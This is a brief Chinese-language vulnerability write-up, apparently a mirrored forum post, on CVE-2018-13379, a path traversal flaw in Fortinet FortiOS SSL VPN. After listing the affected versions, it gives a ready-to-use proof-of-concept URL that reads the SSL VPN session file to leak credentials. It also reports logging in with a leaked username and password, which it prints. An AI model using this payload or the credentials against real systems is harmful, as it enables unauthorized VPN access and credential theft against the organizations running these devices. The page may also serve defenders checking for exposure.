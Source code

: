 # （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2945](https://www.zhihuifly.com/t/topic/2945)

# （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

## 一、漏洞简介

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）
漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

## 二、漏洞影响

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

## 三、复现过程

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![image](img/0af0998ee7cfc90c78dddfc15f287c7f.png)

利用泄露的账户herschel/vvpn123成功登陆。

![image](img/0acb41afe80dc17e71fae24332532238.png)

![image](img/81e5e8b7ea2570e7a56380391472ac1c.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

## 参考链接

> https://blog.csdn.net/limb0/article/details/102890683
